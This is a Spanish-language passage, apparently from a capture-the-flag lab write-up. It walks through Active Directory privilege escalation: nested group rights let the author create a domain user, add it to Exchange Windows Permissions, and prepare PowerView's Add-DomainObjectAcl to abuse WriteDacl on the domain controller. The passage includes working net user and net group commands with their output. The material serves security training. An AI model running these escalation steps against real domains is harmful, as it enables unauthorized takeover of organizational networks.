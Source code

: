 Esta pestaña nos da información de gran valor, podemos ver que nuestro usuario, "svc-alfresco", pertenece al grupo "SERVICE ACCOUNTS" este a su vez pertenece al grupo "PRIVILEGED IT ACCOUNTS" y este a su vez pertenece al grupo "ACCOUNT OPERATORS" vemos que este grupo tiene el privilegio "GenericAll" sobre el grupo "EXCHANGE WINDOWS PERMISSIONS".

Si buscamos acerca del grupo "ACCOUNT OPERATORS" veremos que este grupo nos permite crear/modificar/eliminar usuarios, objetos y grupos. Podemos aprovecharnos de esto para crear un usuario en el grupo "EXCHANGE WINDOWS PERMISSIONS" de tal forma que estaremos un paso más cerca de llegar al Controlador de Dominio.

```plaintext
> net user xdann1 xdann123$! /add /domain
The command completed successfully.
> net group "Exchange Windows Permissions" xdann1 /add
The command completed successfully.
```

El usuario que hemos creado ya debería estar en el grupo "EXCHANGE WINDOWS PERMISSIONS", vamos a comprobarlo.

```plaintext
> net user xdann1
User name                    xdann1
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/27/2022 8:32:38 PM
Password expires             Never
Password changeable          8/28/2022 8:32:38 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```

Vemos que nuestro usuario ya está en el grupo "EXCHANGE WINDOWS PERMISSIONS", ahora como tenemos este grupo vamos a ver si tenemos algún privilegio sobre algo. En la foto anterior podemos ver que el grupo "EXCHANGE WINDOWS PERMISSIONS" tiene el privilegio "WriteDacl" sobre el Controlador de dominio, vamos a aprovecharnos de esto.

Antes de nada, necesitamos importar el módulo de "PowerView" ya que lo necesitaremos más tarde al utilizar la utilidad "Add-DomainObjectAcl".
